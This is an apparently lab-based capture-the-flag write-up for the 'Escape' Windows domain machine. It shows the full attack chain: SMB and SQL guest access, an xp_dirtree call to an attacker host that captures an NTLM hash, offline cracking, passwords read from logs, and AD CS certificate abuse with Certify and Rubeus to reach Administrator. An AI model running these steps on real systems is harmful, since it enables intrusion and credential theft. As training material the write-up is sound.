 # Escape

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 -Pn 10.129.242.117
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-04 06:51 EST
Nmap scan report for 10.129.242.117
Host is up (0.0078s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49689/tcp open  unknown
49690/tcp open  unknown
49710/tcp open  unknown
49714/tcp open  unknown
```

Looks like an AD machine to me. Interestingly, they made port 1433 public facing.&#x20;

### SMB Enum

We can find one share available through `smbmap`:

```
$ smbmap -u 'guest' -p '' -H 10.129.242.117
[+] IP: 10.129.242.117:445      Name: 10.129.242.117                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        Public                                                  READ ONLY
        SYSVOL                                                  NO ACCESS       Logon server share
```

Before checking this share out, we can enumerate the possible usernames and groups using `enum4linux` with the same credentials. We find the the domain name is called `sequel`.

```
S-1-5-21-4078382237-1492182817-2568127209-500 sequel\Administrator (Local User)              
S-1-5-21-4078382237-1492182817-2568127209-501 sequel\Guest (Local User)
S-1-5-21-4078382237-1492182817-2568127209-502 sequel\krbtgt (Local User)
S-1-5-21-4078382237-1492182817-2568127209-512 sequel\Domain Admins (Domain Group)
...
```

Checking the share out, we can find that there's one file here:

```
$ smbclient //10.129.242.117/Public -U 'guest'
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Nov 19 06:51:25 2022
  ..                                  D        0  Sat Nov 19 06:51:25 2022
  SQL Server Procedures.pdf           A    49551  Fri Nov 18 08:39:43 2022
```

We can download this file and view it.&#x20;

### SQL Server Procedures

This is the file contents:

<figure><img src="../../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

The next page contains a guest login for the SQL server. We also find a user called `brandon.brown`, who is likely some kind of database administrator.&#x20;

<figure><img src="../../../.gitbook/assets/image (7) (5).png" alt=""><figcaption></figcaption></figure>

We can use `mssqlclient.py` to connect and interact with this database:

```
$ impacket-mssqlclient WORKGROUP/PublicUser:GuestUserCantWrite1@10.129.242.117
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL>
```

I was able to confirm that `xp_dirtree` is working on this SQL database, thus allowing us to capture hashes either via `smbserver.py` or `responder`.

Just run this within the database:

```
EXEC xp_dirtree '\\10.10.14.7\share'
```

Afterwards, we would capture an NTLM hash.

<figure><img src="../../../.gitbook/assets/image (8) (1) (9).png" alt=""><figcaption></figcaption></figure>

We can try to crack this hash via whatever method available to find this password:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
REGGIE1234ronnie (sql_svc)
```

With these credentials, I was able to login via `evil-winrm`.

<figure><img src="../../../.gitbook/assets/image (24) (6).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SQL Logs

This user did not have the flag or any other local privileges. However, since we are an SQL user, we can perhaps read some sensitive SQL files.

Within the `C:\SQLServer\Logs` file, we can find an ERRORLOG file:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (5).png" alt=""><figcaption></figcaption></figure>

Within that file, we can find some credentials:

```
2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
```

With these credentials, we can login as `ryan.cooper`.

<figure><img src="../../../.gitbook/assets/image (4) (9).png" alt=""><figcaption></figcaption></figure>

We can grab the user flag now.

### Certify.exe --> Admin NTLM

I ran a winPEAS scan to enumerate for me. This scan found some certificates on the machine that could potentially be the PE vector.

<figure><img src="../../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

We can use `certify.exe` to find out if this is vulnerable. Using `certify.exe find /vulnerable`, we can find one certificate:

<figure><img src="../../../.gitbook/assets/image (3) (2) (2).png" alt=""><figcaption></figcaption></figure>

We can then request for this certificate using this command:

```
.\certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator
```

This would output an RSA key and a certificate:

<figure><img src="../../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can simply use `openssl` to convert this output into a .pfx file:

```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

Then, transfer the pfx file and `rubeus.exe` to the machine. We can use `asktgt` with the certificate.

<figure><img src="../../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

Now that we have confirmed this works, we can append `/getcredentials` to the end of the Rubeus command.

<figure><img src="../../../.gitbook/assets/image (21) (5).png" alt=""><figcaption></figcaption></figure>

Then, just pass the hash!

<figure><img src="../../../.gitbook/assets/image (1) (1) (2).png" alt=""><figcaption></figcaption></figure>
